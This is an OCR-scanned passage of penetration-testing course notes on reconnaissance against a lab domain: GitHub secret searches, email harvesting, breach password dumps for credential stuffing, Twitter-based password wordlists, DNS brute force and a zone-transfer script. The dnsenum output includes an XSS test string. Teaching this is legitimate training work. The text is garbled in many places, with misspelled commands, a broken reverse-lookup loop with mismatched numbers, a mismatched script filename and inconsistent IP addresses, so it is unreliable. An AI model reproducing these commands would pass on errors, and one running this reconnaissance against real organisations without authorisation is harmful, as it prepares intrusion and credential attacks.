Let's search that account's repos for interesting information. We can use filename:users to search for any files with the word ·users· in the name:



Our search only found one file - xampp.users. Even with a single result, we may have found
something very interesting as XAMPP 157 is a web application development environment. Let's
check the contents of the file.

This manual approach will work best on small repos. For larger repos, we can use several tools to
help automate some of the searching, such as **Gitrob** and **Gitleaks**. **Recon-ng** also has several
modules for searching GitHub. Most of these tools require an access token to use the source
code hosting provider's APL

**Gitrob**

https://github.com/michenriksen/gitrob

**Gitleaks**

https://github.com/zricethezav/gitleaks

### Shodan

https://www.shodan.io/

As we gather information on our target, it is important to remember that traditional websites are
just one part of the Internet.

Shodan is a search engine that crawls devices connected to the Internet including but not limited to the World Wide Web. This includes the servers that run websites but also devices like routers and loT devices.

To put it another way, Google and other search engines look for web server content, while Shodan searches for Internet-connected devices, interacts with them, and displays information about them.
Although Shodan is not required to complete any material in this module or the labs, it's worth exploring a bit. Before using Shodan we must register a free account, which provides limited access.

Let's start by using Shodan to search for hostnanae : megacorpone.com:

### Security Headers Scanner

https://securityheaders.com/

There are several other specialty websites that we can use to gather information about a website or domain's security posture. Some of these sites blur the line between passive and active information gathering, but the key point for our purposes is that a third-party is initiating any scans or checks.

One such site, Security Headers, 167 will analyze HTTP response headers and provide basic analysis
of the target site's security posture. We can use this to get an idea of an organization's coding and
security practices based on the results.

Let's scan www.megacorpone.com and check the results:


The site is missing several defensive headers, such as Content-Security-Policy 168 and X-Frame-
Options.169 These missing headers are not necessarily vulnerabilities in and of themselves, but they
could indicate web developers or server admins that are not familiar with server hardening. 170

*Server hardening, or secure configuration, is the overall process of securing a server via configuration. This includes things like disabling unneeded services, removing unused services or user accounts, rotating default passwords, setting appropriate server headers, and so forth. We don't need to know all the ins and*
*outs of configuring every type of server, but understanding the concepts and what to look for can help when analyzing servers to determine how best to approach a potential target.*

### SSL Server Test

https://www.ssllabs.com/

Another scanning tool we can use is the SSL Server Test from Qualys SSL Labs. This tool analyzes a server's SSL/TLS configuration and compares it against current best practices. It will also identify some SSL/TLS related vulnerabilities, such as **Poodle** or **Heartbleed**. 

**Poodle**

https://ssl-tools.net/poodle-test

**Heartbleed**

https://ssl-tools.net/heartbleed-test

****

Let's scan www.megacorpone.com and check the results:

 	


The results are not as bad as the Security Headers check. However, the weak Diffie-Hellman key exchange, RC4 ciphers, and lack of Forward Secrecy suggest our target is not applying current best practices for SSL/TLS hardening. For example, disabling RC4 ciphers has been recommended for several years 174 due to multiple vulnerabilities. We can use these findings to get an insight on the security practices, or lack thereof, within the target organization.

### Pastebin

https://pastebin.com/

Pastebin is a website for storing and sharing text. The site doesn't require an account for basic usage. Many people use Pastebin because it is ubiquitous and simple to use. But since Pastebin is a public service, we can use it to search for sensitive information.

For example, we can use the website for basic searches, or use the API for more advanced uses. Let's search for megacorpone.com:

### User Information Gathering

#### Email Harvesting

Let's begin our user information gathering with some basic email harvesting. In this case, we will use theHarvester, 177 which gathers emails, names, subdomains, IPs, and URLs from multiple public data sources.

For example, we can run theHarvester with - d to specify the target domain and -b to set the data
source to search:

```
kali@kali:~$ theHarvester -d megacorpone.com -b google

*******************************************************************
*  _   _                                            _             *
* | |_| |__   ___    /\  /\__ _ _ ____   _____  ___| |_ ___ _ __  *
* | __|  _ \ / _ \  / /_/ / _` | '__\ \ / / _ \/ __| __/ _ \ '__| *
* | |_| | | |  __/ / __  / (_| | |   \ V /  __/\__ \ ||  __/ |    *
*  \__|_| |_|\___| \/ /_/ \__,_|_|    \_/ \___||___/\__\___|_|    *
*                                                                 *
* theHarvester 3.2.0                                          *
* Coded by Christian Martorella                                   *
* Edge-Security Research                                          *
* cmartorella@edge-security.com                                   *
*                                                                 *
******************************************************************* 


[*] Target: megacorpone.com 
 
	Searching 0 results.
	Searching 100 results.
	Searching 200 results.
	Searching 300 results.
	Searching 400 results.
	Searching 500 results.
[*] Searching Google. 

[*] No IPs found.

[*] Emails found: 3
----------------------
first@megacorpone.com
joe@megacorpone.com
mcarlow@megacorpone.com

[*] Hosts found: 18
---------------------
253dsiem.megacorpone.com
50mail.megacorpone.com
60mail2.megacorpone.com
admin.megacorpone.com:3.220.61.179
beta.megacorpone.com:3.220.61.179
fs1.megacorpone.com:3.220.61.179
mail.megacorpone.com:3.220.61.179
mail2.megacorpone.com:3.220.61.179
manager.megacorpone.com
name.megacorpone.com
ns1.megacorpone.com:3.220.61.179
ns2.megacorpone.com:3.211.51.86
router.megacorpone.com:3.220.61.179
siem.megacorpone.com:3.220.61.179
support.megacorpone.com:3.212.85.86
syslog.megacorpone.com:3.220.61.179
www.megacorpone.com:3.220.87.155
x22www.megacorpone.com
```

#### Password Dumps

Malicious hackers often dump breached credentials on Pastebin or other less reputable websites. 178 These password dumps can be extremely valuable for generating wordlists. For example, Kali Linux includes the "rockyou" wordlist generated from a data breach in 2009. 

Checking the email addresses we've found during user enumeration against password dumps can
turn up passwords we could use in credential stuffing attacks.

```
$ locate rockyou.txt           
/usr/share/wordlists/rockyou.txt.gz
```


### Social Media Tools

Just about all organizations now maintain some sort of presence on Social Media. 180 The information a company posts can be very useful for us. We could, for example, use this information to identify potential employees and gain more information about the company and its operations. There are various ways to gather this public information with several tools we have already discussed, such as recon-ng and theHarvester. Let's explore a few additional tools.

#### Social-Searcher

https://www.social-searcher.com/

Social-Searcher is a search engine for social media sites. A free account will allow a limited
number of searches per day. Social-searcher can be a quick alternative to setting up API keys on
multiple more specialized services.


The search results will include information posted by the target organization and what people are saying about it. Among other things, this can help us determine what sort of footprint and coverage an  organization has on social media. Once we've done this, we may choose to move on to using site-specific tools.

#### Site-Specific Tools

There are two site-specific tools that we may want to familiarize ourselves with.

**Twofi** scans a user's Twitter feed and generates a personalized wordlist used for password
attacks against that user. While we will not run any attacks during passive information gathering,
we can run this tool against any Twitter accounts we have identified to have a word list ready when
needed. Twofi requires a valid Twitter API key.

**linkedin2usemame** is a script for generating username lists based on Linkedln data. It requires
valid Linkedln credentials and depends on a Linkedln connection to individuals in the target
organization. The script will output usernames in several different formats.

### Stack Overflow

https://stackoverflow.com/

Stack Overflow is a website for developers to ask and answer coding related questions.
The site's value from an information gathering perspective is in looking at the types of questions a given user is asking or answering. If we can reasonably determine a user on Stack Overflow is also an employee of our target organization, we may be able to infer some things about the organization based on the employee's questions and answers.

For example, if we found a user that is always asking and answering questions about Python, it would be reasonable to assume they use that programming language on a daily basis, and it would likely be used at the organization where they are employed. 

Even worse, if we find employees discussing sensitive information such as vulnerability remediation on these types of forums, we could discover unpatched vulnerabilities during this phase.

### Information Gathering Frameworks

We will wrap up this module by briefly mentioning two additional tools that incorporate many of the techniques that we have discussed and add additional functionality. These tools are generally too heavy for the work we will do in the labs, but they are valuable during real-world assessments.

#### OSINT Framework

https://osintframework.com/

The OSINT Framework includes information gathering tools and websites in one central location. Some tools listed in the framework cover more disciplines than information security.



The OSINT framework is not meant to be a checklist, but reviewing the categories and available tools may spur ideas for additional information gathering opportunities.

#### Maltego

Maltego is a very powerful data mining tool that offers an endless combination of search tools
and strategies. The learning curve for it can be steep, and it is frankly overkill for this module, but
its impressive capability warrants an introduction.

Maltego searches thousands of online data sources, and uses extremely clever tttransforms» to
convert one piece of information into another. For example, if we are performing a user information
gathering campaign, we could submit an email address, and through various automated searches,
"transform· that into an associated phone number or street address. During an organizational
information gathering exercise, we could submit a domain name and "transform· that into a web
server, then a list of email addresses, then a list of associated social media accounts, and then into
a potential password list for that email account.

The combinations are endless, and the discovered information is presented in a scalable graph that
allows easy zoom-and-pan navigation.

Maltego CE (the limited ttcommunity version" of Maltego) is included in Kali and requires a free
registration to use. Commercial versions are also available and can handle larger datasets.

## Active Information Gathering

In this module, we w ill move beyond passive information gathering and explore techniques that
involve direct interaction with target services. We will take a look at some foundational techniques
but bear in mind there are innumerable services that ca n be targeted in the field. This includes
Active Directory for example, which we cover in more detail in a separate module. However, we will
look at some of the more common active information gathering techniques in this module including
port scanning and DNS, SMB, NFS, SMTP, and SNMP enumeration.

### DNS Enumeration

The Domain Name System (DNS) is one of the most critical systems on the Internet and is a distributed database responsible for translating user-friendly domain names into IP addresses. This is facilitated by a hierarchical structure that is divided into several zones, starting with the top-level root zone. Let's take a closer look at the process and servers involved in resolving a hostname like www.megacorpone.com.

The process starts when a hostname is entered into a browser or other application. The browser passes the hostname to the operating system's DNS client and the operating system then forwards the request to the external DNS server it is configured to use. This first server in the chain is known as the DNS recursor and is responsible for interacting with the DNS infrastructure and returning the results to the DNS client. The DNS recursor contacts one of the servers in the DNS root zone. The root server then responds with the address of the server responsible for the zone containing the Top Level Domain (TLD), in this case, the .com TLD. 

Once the DNS recursor receives the address of the TLD DNS server, it queries it for the address of the authoritative nameserver for the megacorpone.com domain. The authoritative nameserver is the final step in the DNS lookup process and contains the DNS records in a local database known as the zone file. It typically hosts two zones for each domain, the forward lookup zone that is used to find the IP address of a specific hostname and the reverse lookup zone (if configured by the administrator), which is used to find the hostname of a specific IP address.  Once the DNS recursor provides the DNS client with the IP address for www.megacorpone.com, the browser can contact the correct web server at its IP address and load the webpage.

To improve the performance and reliability of DNS, DNS caching is used to store local copies of DNS records at various stages of the lookup process. It is for this reason that some modern applications, such as web browsers, keep a separate DNS cache. In addition, the local DNS client of the operating system also maintains its own DNS cache along with each of the DNS servers in the lookup process. Domain owners can also control how long a server or client caches a DNS record via the Time To Live (TTL) field of a DNS record.

#### Interacting with a DNS Server

Each domain can use different types of DNS records. Some of the most common types of DNS
records include:

- **NS**- Nameserver records contain the name of the authoritative servers hosting the DNS
  records for a domain.

- **A** -Also known as a host record, the ·a record" contains the IP address of a hostname (such
  as www.megacorpone.com).

- **MX** - Mail Exchange records contain the names of the servers responsible for handling email
  for the domain. A domain can contain multiple MX records.

- **PTR** - Pointer Records are used in reverse lookup zones and are used to find the records
  associated with an IP address.

- **CNAME** - Canonical Name Records are used to create aliases for other host records.

- **TXT**- Text records can contain any arbitrary data and can be used for various purposes,
  such as domain ownership verification.

  

Due to the wealth of information contained within DNS, it is often a lucrative target for active   information gathering.

To demonstrate this, we'll use the host command to find the IP address of www.megacorpone.com: 

```
kali@kali:~$ host www.megacorpone.com
www.megacorpone.com has address 3.220.87.155
```

By default, the host command looks for an A record, but we can also query other fields, such as MX
or TXT records. To do this, we can use the -t option to specify the type of record we are looking for:

```
kali@kali:~$ host -t mx megacorpone.com                  
megacorpone.com mail is handled by 50 mail.megacorpone.com.
megacorpone.com mail is handled by 60 mail2.megacorpone.com.
megacorpone.com mail is handled by 10 fb.mail.gandi.net.
megacorpone.com mail is handled by 20 spool.mail.gandi.net.

kali@kali:~$ host -t txt megacorpone.com
megacorpone.com descriptive text "Try Harder"
megacorpone.com descriptive text "google-site-verification=U7B_b0HNeBtY4qYGQZNsEYXfCJ32hMNV3GtC0wWq5pA"
```

#### Automating Lookups

Now that we have some initial data from the megacorpone.com domain, we can continue to use
additional DNS queries to discover more hostnames and IP addresses belonging to the same
domain. For example, we know that the domain has a web server, with the hostname
"www.megacorpone.com·.

Let's run host against this hostname:

```
kali@kali:~$ host www.megacorpone.com
www.megacorpone.com has address 38.100.193.76
```

Now, let's see ff megacorpone.com has a server with the hostname "idontexist". Notice the
difference between the query outputs:

```
kali @kali:~$ host idontexist.megacorpone.com
Host idontexist.megacorpone.com not found: 3(NXOOMAIN)
```

In Listing 212, we queried a valid hostname and received an IP resolution response. By contrast,
Listing 213 returned an error (NXDOMAfN 189) that indfcated that a public DNS record does not exist
for that hostname. Now that we understand how to search for valid hostnames, we can automate
our efforts.

#### Forward Lookup Brute Force

Brute force is a trial-and-error technique that seeks to find valid information, including directories on a webserver, username and password combinations, or fn this case, valid DNS records. By using a wordlist that contains common hostnames, we can attempt to guess DNS records and check the response for valid hostnames.

In the examples so far, we used forward lookups, which request the IP address of a hostname, to query both a valid and an invalid hostname. If host successfully resolves a name to an IP, this could be an indication of a functional server.

We can automate the forward DNS lookup of common hostnames using the host command in a Bash one-liner.

First, let's build a list of possible hostnames:

```
kali@kali:~$ cat list_sub.txt
WWW
ftp
mail
owa
proxy
router
```

Next. we can use a Bash one-lfner to attempt to resolve each hostname:

```
kali@kali:~$ for ip in $(cat list_sub.txt ) ; do host $ip.megacorpone.com; done           www.megacorpone.com has address 3.220.87.155
Host ftp.megacorpone.com not found: 3(NXDOMAIN)
mail.megacorpone.com has address 3.220.61.179
Host owa.megacorpone.com not found: 3(NXDOMAIN)
Host proxy.megacorpone.com not found: 3(NXDOMAIN)
router.megacorpone.com has address 3.220.61.179
```

With this simplified wordlist, we discovered entries for "www·, "mail", and ·router". The hostnames
"ftp•, ·owa·, and "proxy·, however, were not found. Much more comprehensive wordlists are
available as part of the Seclists project. These wordlists can be installed to the /usr/share/seclists directory using the sudo apt install seclists command.

#### Reverse Lookup Brute Force

Our DNS forward brute force enumeration revealed a set of scattered IP addresses in the same approximate range (38.100.193.X). If the DNS administrator of megacorpone.com configured PTR 191 records for the domain, we could scan the approximate range with reverse lookups to request the hostname for each IP. 

Let's use a loop to scan IP addresses 38.100.193.50 through 38.100.193.100. We will filter out invalid results by showing only entries that do not contain "not found" (with grep -v):

```
kali@kali:~$ for ip in $(seq 58 108) do host 38.108.193.$ip; done | grep -v "notfound"
nd"
69.193.100.38.in-addr.arpa domain name pointer beta.megacorpone.com.
70.193.100.38.in-addr.arpa domain name pointer nsl.megacorpone.com.
72.193.100.38.in-addr.arpa domain name pointer admin.megacorpone.com.
73.193.100.38.in-addr.arpa domain name pointer mail2.megacorpone.com.
76.193.100.38.in-addr.arpa domain name pointer www.megacorpone.com.
77.193.100.38.in-addr.arpa domain name pointer vpn.megacorpone.com.
...
```

We have successfully managed to resolve a number of IP addresses to valid hosts using reverse DNS lookups. If we were performing an assessment, we could further extrapolate these results, and might scan for ·mail1 ·, ·mail3", etc and reverse lookup positive results. The point is that these types of scans are often cyclical; we expand our search based on any information we receive at every round.

#### DNS Zone Transfers

A zone transfer is basically a database replication between related DNS servers in which the zone file is copied from a master DNS server to a slave server. The zone file contains a list of all the DNS names configured for that zone. Zone transfers should only be allowed to authorized slave DNS servers but many administrators misconfigure their DNS servers, and in these cases, anyone asking for a copy of the DNS server zone will usually receive one.

This is equivalent to handing a hacker the corporate network layout on a silver platter. All the names, addresses, and functionality of the servers can be exposed to prying eyes.

A successful zone transfer does not directly result in a network breach, although it does facilitate
the process.

The host command syntax for performing a zone transfer is as follows:

```
host -l <domain name> <dns server address>
```

From our earliest host command (Listing 21 O), we noticed that three DNS servers serve the
megacorpone.com domain: ns7, ns2, and ns3. Let's try a zone transfer against each one.

We will use host -l. (list zone) to attempt the zone transfers:

```
kali@kali:-$ host -l megacorpone.com ns1.megacorpone.com 
Using domain server:
Name: ns1.megacorpone.com
Address: 3.220.61.179#53
Aliases: 

Host megacorpone.com not found: 5(REFUSED)
; Transfer failed.
```

Unfortunately, it looks like the first nameserver, nsl, does not allow DNS zone transfers, so our
attempt has failed.

Let's try to perform the same steps using the second nameserver, ns2:

```
kali@kali:-$ host -l megacorpone.com ns2.megacorpone.com                                   
Using domain server:
Name: ns2.megacorpone.com
Address: 3.211.51.86#53
Aliases: 

megacorpone.com name server ns1.megacorpone.com.
megacorpone.com name server ns2.megacorpone.com.
megacorpone.com name server ns3.megacorpone.com.
admin.megacorpone.com has address 3.220.61.179
beta.megacorpone.com has address 3.220.61.179
fs1.megacorpone.com has address 3.220.61.179
intranet.megacorpone.com has address 3.220.61.179
mail.megacorpone.com has address 3.220.61.179
mail2.megacorpone.com has address 3.220.61.179
ns1.megacorpone.com has address 3.220.61.179
ns2.megacorpone.com has address 3.211.51.86
ns3.megacorpone.com has address 3.212.85.86
router.megacorpone.com has address 3.220.61.179
siem.megacorpone.com has address 3.220.61.179
snmp.megacorpone.com has address 3.220.61.179
support.megacorpone.com has address 3.212.85.86
syslog.megacorpone.com has address 3.220.61.179
test.megacorpone.com has address 3.220.61.179
vpn.megacorpone.com has address 3.220.61.179
www.megacorpone.com has address 3.220.87.155
www2.megacorpone.com has address 3.220.61.179
```

his server allows zone transfers and provides a full dump of the zone file for the megacorpone.com domain, delivering a convenient list of IP addresses and corresponding DNS hostnames!

The megacorpone.com domain has very few DNS servers to check. However, some larger organizations might host many DNS servers, or we might want to attempt zone transfer requests against all the DNS servers in a given domain. Bash scripting can help with this task.

To attempt a zone transfer with the host command, we need two parameters: a nameserver address and a domain name. We can get the nameservers for a given domain with the following command:

```
kali@kali:-$ host -t ns megacorpone.com | cut -d " " -f 4
ns1.megacorpone.com.
ns2.megacorpone.com.
ns3.megacorpone.com.
```

Ta king this a step further, we can write a Bash script to automate the process of identifying the
relevant nameservers and attempting a zone transfer from each:

```
#!/bin/bash
# Simple Zone Transfer Bash Script
# $1 is the first argument given after the bash script
# Check if argument was given, if not, print usage

if [ -z "$1" ] ; then
echo "[*] Simple Zone transfer script"
echo "[*] Usage : $0 <domain name> "
exit 0
fi

# if argument was given, identify the DNS serve r s for the domain

for server in $(host -t ns $1 | cut -d " " -f 4); do
	# For each of these servers, attempt a zone transfer
	host -l $1 $server | grep "has address"
done
```

Let's make the script executable and run it against megacorpone.com.

```
kali@kali:-$ chmod +x dns-trasfer.sh

kali@kali:-$ ./dns_transfer.sh megacorpone.com
admin.megacorpone.com has address 3.220.61.179
beta.megacorpone.com has address 3.220.61.179
fs1.megacorpone.com has address 3.220.61.179
intranet.megacorpone.com has address 3.220.61.179
mail.megacorpone.com has address 3.220.61.179
mail2.megacorpone.com has address 3.220.61.179
ns1.megacorpone.com has address 3.220.61.179
ns2.megacorpone.com has address 3.211.51.86
ns3.megacorpone.com has address 3.212.85.86
router.megacorpone.com has address 3.220.61.179
siem.megacorpone.com has address 3.220.61.179
snmp.megacorpone.com has address 3.220.61.179
support.megacorpone.com has address 3.212.85.86
syslog.megacorpone.com has address 3.220.61.179
test.megacorpone.com has address 3.220.61.179
vpn.megacorpone.com has address 3.220.61.179
www.megacorpone.com has address 3.220.87.155
www2.megacorpone.com has address 3.220.61.179
```

#### Relevant Tools in Kali Linux

There are several tools in Kali Linux that can automate DNS enumeration. Two notable examples
are DNSRecon and DNSenum, which have useful options that we'll explore in the following sections.

##### DNSRecon

DNSRecon is an advanced, modern DNS enumeration script written in Python. Running
dnsrecon against megacorpone.com using the -d option to specify a domain name, and -t to
specify the type of enumeration to perform (in this case a zone transfer), produces the following
output:

```
kali@kali:-$ dnsrecon -d megacorpone.com -t axfr                                           
[*] Testing NS Servers for Zone Transfer
[*] Checking for Zone Transfer for megacorpone.com name servers
[*] Resolving SOA Record
['SOA', 'ns1.megacorpone.com', '3.220.61.179']
[+] 	 SOA ns1.megacorpone.com 3.220.61.179
[*] Resolving NS Records
[*] NS Servers found:
[*] 	NS ns3.megacorpone.com 3.212.85.86
[*] 	NS ns1.megacorpone.com 3.220.61.179
[*] 	NS ns2.megacorpone.com 3.211.51.86
[*] Removing any duplicate NS server IP Addresses...
[*]  
[*] Trying NS server 3.211.51.86
[+] [['NS', 'ns3.megacorpone.com', '3.212.85.86'], ['NS', 'ns1.megacorpone.com', '3.220.61.179'], ['NS', 'ns2.megacorpone.com', '3.211.51.86']] Has port 53 TCP Open
[+] Zone Transfer was successful!!
[*] 	 NS ns1.megacorpone.com 3.220.61.179
[*] 	 NS ns2.megacorpone.com 3.211.51.86
[*] 	 NS ns3.megacorpone.com 3.212.85.86
[*] 	 TXT Try Harder
[*] 	 TXT google-site-verification=U7B_b0HNeBtY4qYGQZNsEYXfCJ32hMNV3GtC0wWq5pA
[*] 	 MX @.megacorpone.com fb.mail.gandi.net 217.70.178.217
[*] 	 MX @.megacorpone.com spool.mail.gandi.net 217.70.178.1
[*] 	 A admin.megacorpone.com 3.220.61.179
[*] 	 A beta.megacorpone.com 3.220.61.179
[*] 	 A fs1.megacorpone.com 3.220.61.179
[*] 	 A intranet.megacorpone.com 3.220.61.179
[*] 	 A mail.megacorpone.com 3.220.61.179
[*] 	 A mail2.megacorpone.com 3.220.61.179
[*] 	 A ns1.megacorpone.com 3.220.61.179
[*] 	 A ns2.megacorpone.com 3.211.51.86
[*] 	 A ns3.megacorpone.com 3.212.85.86
[*] 	 A router.megacorpone.com 3.220.61.179
[*] 	 A siem.megacorpone.com 3.220.61.179
[*] 	 A snmp.megacorpone.com 3.220.61.179
[*] 	 A support.megacorpone.com 3.212.85.86
[*] 	 A syslog.megacorpone.com 3.220.61.179
[*] 	 A test.megacorpone.com 3.220.61.179
[*] 	 A vpn.megacorpone.com 3.220.61.179
[*] 	 A www.megacorpone.com 3.220.87.155
[*] 	 A www2.megacorpone.com 3.220.61.179
[*]  
[*] Trying NS server 3.212.85.86
[+] [['NS', 'ns3.megacorpone.com', '3.212.85.86'], ['NS', 'ns1.megacorpone.com', '3.220.61.179'], ['NS', 'ns2.megacorpone.com', '3.211.51.86']] Has port 53 TCP Open
[-] Zone Transfer Failed!

```

Based on the output above, we have managed to perform a successful DNS zone transfer against
the megacorpone.com domain. The result is basically a full dump of the zone file for the domain.

Let's try to brute force additional hostnames using the list.txt file we created previously for forward
lookups. That list looks like this:

```
kali@kali:-$ cat list_sub.txt   
www
ftp
mail
owa
proxy
router
```

To begin the brute force attempt, we will use the-d option to specify a domain name, -D to specify
a file name containing potential subdomain strings, and -t to specify the type of enumeration to
perform (in this case brt for brute force):

```
kali@kali:-$ dnsrecon -d megacorpone.com -D ~/my_folder/list_sub.txt -t brt
[*] Performing host and subdomain brute force against megacorpone.com
[+] www.megacorpone.com: A : 3.220.87.155
[+] router.megacorpone.com: A : 3.220.61.179
[+] mail.megacorpone.com: A : 3.220.61.179
[+] 3 Records Found
```

##### DNSenum

DNSEnum is another popular DNS enumeration tool. To show a different output, let's run dnsenum
against the zonetransfer.me domain (which is owned by DigiNinja 194 and specifically allows zone
transfers):

```
$ dnsenum zonetransfer.me                                       
dnsenum VERSION:1.2.6

-----   zonetransfer.me   -----


Host's addresses:
__________________

zonetransfer.me.                         7199     IN    A        5.196.105.14


Name Servers:
______________

nsztm1.digi.ninja.                       10799    IN    A        81.4.108.41
nsztm2.digi.ninja.                       10799    IN    A        34.225.33.2


Mail (MX) Servers:
___________________

ASPMX.L.GOOGLE.COM.                      292      IN    A        64.233.189.27
ASPMX3.GOOGLEMAIL.COM.                   292      IN    A        142.250.28.26
ALT1.ASPMX.L.GOOGLE.COM.                 292      IN    A        74.125.137.26
ASPMX4.GOOGLEMAIL.COM.                   292      IN    A        209.85.147.26
ALT2.ASPMX.L.GOOGLE.COM.                 292      IN    A        142.250.28.26
ASPMX2.GOOGLEMAIL.COM.                   292      IN    A        74.125.137.26
ASPMX5.GOOGLEMAIL.COM.                   292      IN    A        173.194.209.26


Trying Zone Transfers and getting Bind Versions:
_________________________________________________


Trying Zone Transfer for zonetransfer.me on nsztm1.digi.ninja ... 
zonetransfer.me.                         7200     IN    SOA               (
zonetransfer.me.                         300      IN    HINFO        "Casio
zonetransfer.me.                         301      IN    TXT               (
zonetransfer.me.                         7200     IN    MX                0
zonetransfer.me.                         7200     IN    MX               10
zonetransfer.me.                         7200     IN    MX               10
zonetransfer.me.                         7200     IN    MX               20
zonetransfer.me.                         7200     IN    MX               20
zonetransfer.me.                         7200     IN    MX               20
zonetransfer.me.                         7200     IN    MX               20
zonetransfer.me.                         7200     IN    A        5.196.105.14
zonetransfer.me.                         7200     IN    NS       nsztm1.digi.ninja.
zonetransfer.me.                         7200     IN    NS       nsztm2.digi.ninja.
_acme-challenge.zonetransfer.me.         301      IN    TXT               (
_sip._tcp.zonetransfer.me.               14000    IN    SRV               0
14.105.196.5.IN-ADDR.ARPA.zonetransfer.me. 7200     IN    PTR      www.zonetransfer.me.
asfdbauthdns.zonetransfer.me.            7900     IN    AFSDB             1
asfdbbox.zonetransfer.me.                7200     IN    A         127.0.0.1
asfdbvolume.zonetransfer.me.             7800     IN    AFSDB             1
canberra-office.zonetransfer.me.         7200     IN    A        202.14.81.230
cmdexec.zonetransfer.me.                 300      IN    TXT              ";
contact.zonetransfer.me.                 2592000  IN    TXT               (
dc-office.zonetransfer.me.               7200     IN    A        143.228.181.132
deadbeef.zonetransfer.me.                7201     IN    AAAA     dead:beaf::
dr.zonetransfer.me.                      300      IN    LOC              53
DZC.zonetransfer.me.                     7200     IN    TXT         AbCdEfG
email.zonetransfer.me.                   2222     IN    NAPTR             (
email.zonetransfer.me.                   7200     IN    A        74.125.206.26
Hello.zonetransfer.me.                   7200     IN    TXT             "Hi
home.zonetransfer.me.                    7200     IN    A         127.0.0.1
Info.zonetransfer.me.                    7200     IN    TXT               (
internal.zonetransfer.me.                300      IN    NS       intns1.zonetransfer.me.
internal.zonetransfer.me.                300      IN    NS       intns2.zonetransfer.me.
intns1.zonetransfer.me.                  300      IN    A        81.4.108.41
intns2.zonetransfer.me.                  300      IN    A        167.88.42.94
office.zonetransfer.me.                  7200     IN    A        4.23.39.254
ipv6actnow.org.zonetransfer.me.          7200     IN    AAAA     2001:67c:2e8:11::c100:1332
owa.zonetransfer.me.                     7200     IN    A        207.46.197.32
robinwood.zonetransfer.me.               302      IN    TXT          "Robin
rp.zonetransfer.me.                      321      IN    RP                (
sip.zonetransfer.me.                     3333     IN    NAPTR             (
sqli.zonetransfer.me.                    300      IN    TXT              "'
sshock.zonetransfer.me.                  7200     IN    TXT             "()
staging.zonetransfer.me.                 7200     IN    CNAME    www.sydneyoperahouse.com.
alltcpportsopen.firewall.test.zonetransfer.me. 301      IN    A         127.0.0.1
testing.zonetransfer.me.                 301      IN    CNAME    www.zonetransfer.me.
vpn.zonetransfer.me.                     4000     IN    A        174.36.59.154
www.zonetransfer.me.                     7200     IN    A        5.196.105.14
xss.zonetransfer.me.                     300      IN    TXT      "'><script>alert('Boo')</script>"

Trying Zone Transfer for zonetransfer.me on nsztm2.digi.ninja ... 
zonetransfer.me.                         7200     IN    SOA               (
zonetransfer.me.                         300      IN    HINFO        "Casio
zonetransfer.me.                         301      IN    TXT               (
zonetransfer.me.                         7200     IN    MX                0
zonetransfer.me.                         7200     IN    MX               10
zonetransfer.me.                         7200     IN    MX               10
zonetransfer.me.                         7200     IN    MX               20
zonetransfer.me.                         7200     IN    MX               20
zonetransfer.me.                         7200     IN    MX               20
zonetransfer.me.                         7200     IN    MX               20
zonetransfer.me.                         7200     IN    A        5.196.105.14
zonetransfer.me.                         7200     IN    NS       nsztm1.digi.ninja.
zonetransfer.me.                         7200     IN    NS       nsztm2.digi.ninja.
_acme-challenge.zonetransfer.me.         301      IN    TXT               (
_acme-challenge.zonetransfer.me.         301      IN    TXT               (
_sip._tcp.zonetransfer.me.               14000    IN    SRV               0
14.105.196.5.IN-ADDR.ARPA.zonetransfer.me. 7200     IN    PTR      www.zonetransfer.me.
asfdbauthdns.zonetransfer.me.            7900     IN    AFSDB             1
asfdbbox.zonetransfer.me.                7200     IN    A         127.0.0.1
asfdbvolume.zonetransfer.me.             7800     IN    AFSDB             1
canberra-office.zonetransfer.me.         7200     IN    A        202.14.81.230
cmdexec.zonetransfer.me.                 300      IN    TXT              ";
contact.zonetransfer.me.                 2592000  IN    TXT               (
dc-office.zonetransfer.me.               7200     IN    A        143.228.181.132
deadbeef.zonetransfer.me.                7201     IN    AAAA     dead:beaf::
dr.zonetransfer.me.                      300      IN    LOC              53
DZC.zonetransfer.me.                     7200     IN    TXT         AbCdEfG
email.zonetransfer.me.                   2222     IN    NAPTR             (
email.zonetransfer.me.                   7200     IN    A        74.125.206.26
Hello.zonetransfer.me.                   7200     IN    TXT             "Hi
home.zonetransfer.me.                    7200     IN    A         127.0.0.1
Info.zonetransfer.me.                    7200     IN    TXT               (
internal.zonetransfer.me.                300      IN    NS       intns1.zonetransfer.me.
internal.zonetransfer.me.                300      IN    NS       intns2.zonetransfer.me.
intns1.zonetransfer.me.                  300      IN    A        81.4.108.41
intns2.zonetransfer.me.                  300      IN    A        52.91.28.78
office.zonetransfer.me.                  7200     IN    A        4.23.39.254
ipv6actnow.org.zonetransfer.me.          7200     IN    AAAA     2001:67c:2e8:11::c100:1332
owa.zonetransfer.me.                     7200     IN    A        207.46.197.32
robinwood.zonetransfer.me.               302      IN    TXT          "Robin
rp.zonetransfer.me.                      321      IN    RP                (
sip.zonetransfer.me.                     3333     IN    NAPTR             (
sqli.zonetransfer.me.                    300      IN    TXT              "'
sshock.zonetransfer.me.                  7200     IN    TXT             "()
staging.zonetransfer.me.                 7200     IN    CNAME    www.sydneyoperahouse.com.
alltcpportsopen.firewall.test.zonetransfer.me. 301      IN    A         127.0.0.1
testing.zonetransfer.me.                 301      IN    CNAME    www.zonetransfer.me.
vpn.zonetransfer.me.                     4000     IN    A        174.36.59.154
www.zonetransfer.me.                     7200     IN    A        5.196.105.14
xss.zonetransfer.me.                     300      IN    TXT      "'><script>alert('Boo')</script>"


Brute forcing with /usr/share/dnsenum/dns.txt:
_______________________________________________

```

These enumeratfon tools are both capable and straightforward. Take some time to practice with
each before continuing.


### Port Scanning

Port scanning is the process of inspecting TCP or UDP ports on a remote machine with the intention of detecting what services are running on the target and what potential attack vectors may exist.

*Please note that port scanning is not representative of traditional user activity and could be considered illegal in some Jurisdictions. Therefore, it should not be performed outside the labs without direct, written permission from the target network owner.*

It is essential to understand the implications of port scanning, as well as the impact that specific port scans can have. Due to the amount of traffic some scans can generate, along with their intrusive nature, running port scans blindly can have adverse effects on target systems or the client network such as overloading servers and network links or triggering IDS. Running the wrong scan could result in downtime for the customer.

